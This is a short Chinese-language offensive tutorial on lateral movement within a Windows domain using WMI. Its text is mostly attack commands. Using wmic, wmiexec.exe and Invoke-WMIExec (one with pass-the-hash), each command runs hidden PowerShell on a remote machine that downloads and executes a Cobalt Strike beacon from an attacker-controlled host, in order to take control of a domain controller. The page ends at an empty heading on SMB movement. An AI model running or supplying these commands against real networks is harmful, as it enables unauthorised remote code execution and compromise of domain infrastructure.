

## WMI横移命令

如下命令实现在远程计算机上创建并运行一个新进程，换句话说，即在指定的远程节点上执行一个Powershell命令，以此实现CS上线(注意：普通用户也能执行)

```
shell wmic /NODE:10.10.10.10 /user:administrator /password:qQ123456 PROCESS call
create "powershell.exe -nop -w hidden -c \"IEX ((new-object
net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))\""
```

![image-20230903111534237](内网横向移动/image-20230903111534237.png)



## WMI工具横移

### wmiexec.exe

将wmiexec.exe上传至目标主机，随后执行如下命令，让目标域控上线

```
shell wmiexec.exe administrator:qQ123456@10.10.10.10 "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))"
```

![image-20230903113158858](内网横向移动/image-20230903113158858.png)



### Invoke-WMIExec.ps1

首先导入powershell脚本：`Invoke-WMIExec.ps1`

```
powershell-import
```

![image-20230903200909394](内网横向移动/image-20230903200909394.png)



远程执行powershell命令上线域控

```
powershell Invoke-WMIExec -Target 10.10.10.10 -Username administrator -Hash e39c2287a10517cf1cde66bd8c7c6cf0 -Command "powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))" -verbose
```

![image-20230903201141946](内网横向移动/image-20230903201141946.png)

​	

# SMB横移

